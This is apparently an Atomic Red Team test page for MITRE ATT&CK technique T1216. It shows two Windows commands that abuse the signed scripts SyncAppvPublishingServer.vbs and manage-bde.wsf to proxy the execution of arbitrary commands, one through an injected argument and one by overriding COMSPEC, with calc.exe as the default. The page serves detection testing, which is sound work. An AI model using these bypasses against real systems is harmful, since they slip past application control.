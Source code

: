 # T1216 - System Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1216)
<blockquote>Adversaries may use trusted scripts, often signed with certificates, to proxy the execution of malicious files. Several Microsoft signed scripts that have been downloaded from Microsoft or are default on Windows installations can be used to proxy execution of other files.(Citation: LOLBAS Project) This behavior may be abused by adversaries to execute malicious files that could bypass application control and signature validation on systems.(Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SyncAppvPublishingServer Signed Script PowerShell Command Execution](#atomic-test-1---syncappvpublishingserver-signed-script-powershell-command-execution)

- [Atomic Test #2 - manage-bde.wsf Signed Script Command Execution](#atomic-test-2---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - SyncAppvPublishingServer Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServer script with options to execute an arbitrary PowerShell command.
Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 275d963d-3f36-476c-8bef-a2a3960ee6eb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | String | Start-Process calc|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\windows\system32\SyncAppvPublishingServer.vbs "\n;#{command_to_execute}"
```






<br/>
<br/>

## Atomic Test #2 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


**auto_generated_guid:** 2a8f2d3c-3dec-4262-99dd-150cb2a4d63a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | %windir%&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set comspec=#{command_to_execute}
cscript %windir%\System32\manage-bde.wsf
```

#### Cleanup Commands:
```cmd
set comspec=%windir%\System32\cmd.exe
```





<br/>
